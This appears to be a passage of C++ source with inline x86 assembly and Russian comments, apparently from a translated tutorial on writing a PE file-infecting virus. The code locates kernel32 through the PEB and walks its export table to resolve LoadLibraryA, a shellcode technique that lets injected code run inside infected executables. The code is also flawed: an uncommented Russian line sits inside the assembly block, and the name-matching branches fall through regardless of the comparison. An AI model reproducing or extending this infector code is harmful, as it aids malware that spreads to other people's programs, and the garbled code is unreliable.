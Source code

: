     // получаем опкоды
    DWORD start(0), end(0);
    __asm{
        mov eax, loc1
        mov[start], eax
        мы пропускаем вторую ассемблерную вставку (__asm), чтобы не исполнять ее в самом коде инфектора
        jmp over
        loc1:
    }
 
    __asm{
        /*
            Смысл этого куска кода в чтении базового адреса kernel32.dll
            из PED, просмотр таблицы экспорта (EAT) и поиск функций
        */
        mov eax, fs:[30h]
        mov eax, [eax + 0x0c]; 12
        mov eax, [eax + 0x14]; 20
        mov eax, [eax]
        mov eax, [eax]
        mov eax, [eax + 0x10]; 16
 
        mov   ebx, eax; Берем базовый адрес kernel32
        mov   eax, [ebx + 0x3c]; VMA (virtual memory address - адрес виртуальной памяти - прим.пер.) заголовка PE
        mov   edi, [ebx + eax + 0x78]; Относительное смещение таблицы экспорта
        add   edi, ebx; VMA таблицы экспорта
        mov   ecx, [edi + 0x18]; количество имен
 
        mov   edx, [edi + 0x20]; Относительное смещение таблицы имен
        add   edx, ebx; VMA таблицы имен
        // теперь давайте посмотрим на функцию LoadLibraryA
 
        LLA :
        dec ecx
            mov esi, [edx + ecx * 4]; сохраняем относительное смещение имени
            add esi, ebx; Устанавливаем в esi - VMA текущего имени 
            cmp dword ptr[esi], 0x64616f4c; обратный порядок байт L(4c)o(6f)a(61)d(64)
            je LLALOOP1
        LLALOOP1 :
        cmp dword ptr[esi + 4], 0x7262694c
            ;L(4c)i(69)b(62)r(72)
            je LLALOOP2
        LLALOOP2 :
        cmp dword ptr[esi + 8], 0x41797261; третье слово = a(61)r(72)y(79)A(41)
            je stop; прыгаем на метку stop, потому что мы нашли его
            jmp LLA; Load Libr aryA
        stop :
        mov   edx, [edi + 0x24];   Таблица относительных порядковых номеров функций
            add   edx, ebx; Таблица порядковых номеров функций
            mov   cx, [edx + 2 * ecx]; порядковый номер функции
            mov   edx, [edi + 0x1c]; Таблица относительных адресов смещений
            add   edx, ebx; Таблица адресов
            mov   eax, [edx + 4 * ecx]; смещение порядкового номера
            add   eax, ebx; VMA функции
            // теперь EAX содержит адрес LoadLibraryA
 
